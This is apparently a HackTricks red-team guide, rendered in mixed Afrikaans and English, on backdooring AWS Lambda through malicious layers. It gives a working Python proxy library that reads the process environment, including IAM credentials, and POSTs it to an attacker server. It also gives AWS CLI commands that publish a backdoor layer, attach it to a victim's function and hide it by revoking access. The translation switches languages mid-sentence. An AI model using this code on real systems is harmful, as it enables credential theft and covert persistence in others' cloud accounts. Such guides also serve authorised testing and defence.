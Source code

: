 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

'n Lambda-laag is 'n .zip-lêerargief wat **addisionele kode** of ander inhoud **kan bevat**. 'n Laag kan biblioteke, 'n [aangepaste runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data, of konfigurasielêers bevat.

Dit is moontlik om tot **vyf lae per funksie** in te sluit. Wanneer jy 'n laag in 'n funksie insluit, word die **inhoud na die `/opt`** gids in die uitvoeringsomgewing onttrek.

Deur **standaard** is die **lae** wat jy skep **privaat** vir jou AWS-rekening. Jy kan kies om 'n laag met ander rekeninge te **deel** of om die laag **publiek** te **maak**. As jou funksies 'n laag gebruik wat 'n ander rekening gepubliseer het, kan jou funksies **voortgaan om die laag weergawe te gebruik nadat dit verwyder is, of nadat jou toestemming om toegang tot die laag te verkry, ingetrek is**. Jy kan egter nie 'n nuwe funksie skep of funksies opdateer wat 'n verwyderde laag weergawe gebruik nie.

Funksies wat as 'n houerbeeld ontplooi word, gebruik nie lae nie. In plaas daarvan, pak jy jou verkiesde runtime, biblioteke, en ander afhanklikhede in die houerbeeld wanneer jy die beeld bou.

### Python laai pad

Die laai pad wat Python in lambda sal gebruik, is die volgende:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Kontroleer hoe die **tweede** en derde **posisies** beset word deur gidse waar **lambda layers** hul lêers ontsyfer: **`/opt/python/lib/python3.9/site-packages`** en **`/opt/python`**

{% hint style="danger" %}
As 'n aanvaller daarin slaag om 'n gebruikte lambda **layer** te **backdoor** of **een toe te voeg** wat **arbitraire kode sal uitvoer wanneer 'n algemene biblioteek gelaai word**, sal hy in staat wees om kwaadwillige kode met elke lambda-aanroep uit te voer.
{% endhint %}

Daarom is die vereistes:

* **Kontroleer biblioteke** wat deur die slagofferskode **gelaai** word
* Skep 'n **proxy-biblioteek met lambda layers** wat **aangepaste kode sal uitvoer** en die **oorspronklike** biblioteek **sal laai**.

### Vooraf gelaaide biblioteke

{% hint style="warning" %}
Wanneer ek hierdie tegniek misbruik, het ek 'n moeilikheid gevind: Sommige biblioteke is **reeds gelaai** in die python runtime wanneer jou kode uitgevoer word. Ek het verwag om dinge soos `os` of `sys` te vind, maar **selfs die `json` biblioteek was gelaai**.\
Om hierdie volhardingstegniek te misbruik, moet die kode 'n **nuwe biblioteek laai wat nie gelaai is** wanneer die kode uitgevoer word.
{% endhint %}

Met 'n python kode soos hierdie is dit moontlik om die **lys van biblioteke wat vooraf gelaai is** binne python runtime in lambda te verkry:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
En dit is die **lys** (kontroleer dat biblioteke soos `os` of `json` reeds daar is)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
En dit is die lys van **biblioteke** wat **lambda standaard geïnstalleer het**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Laag Terugdoening

In hierdie voorbeeld kom ons veronderstel dat die geteikende kode **`csv`** invoer. Ons gaan die **invoer van die `csv` biblioteek terugdoen**.

Om dit te doen, gaan ons die **gids csv** skep met die lêer **`__init__.py`** daarin in 'n pad wat deur lambda gelaai word: **`/opt/python/lib/python3.9/site-packages`**\
Dan, wanneer die lambda uitgevoer word en probeer om **csv** te laai, sal ons **`__init__.py` lêer gelaai en uitgevoer word**.\
Hierdie lêer moet:

* Ons payload uitvoer
* Die oorspronklike csv biblioteek laai

Ons kan albei doen met:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **send the IAM creds to a server DIE EERSTE KEER dit aangeroep word of NA 'n reset van die lambda houer** (verandering van kode of koue lambda), but **ander tegnieke** such as the following could also be integrated:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Note that it's possible to use **lambda layers from external accounts**. Moreover, a lambda can use a layer from an external account even if it doesn't have permissions.\
Also note that the **max number of layers a lambda can have is 5**.

Therefore, in order to improve the versatility of this technique an attacker could:

* Backdoor an existing layer of the user (niets is ekstern)
* **Create** a **layer** in **sy rekening**, give the **victim rekening toegang** to use the layer, **configure** the **layer** in victims Lambda and **remove the permission**.
* The **Lambda** will still be able to **use the layer** and the **victim won't** have any easy way to **download the layers code** (apart from getting a rev shell inside the lambda)
* The victim **won't see external layers** used with **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
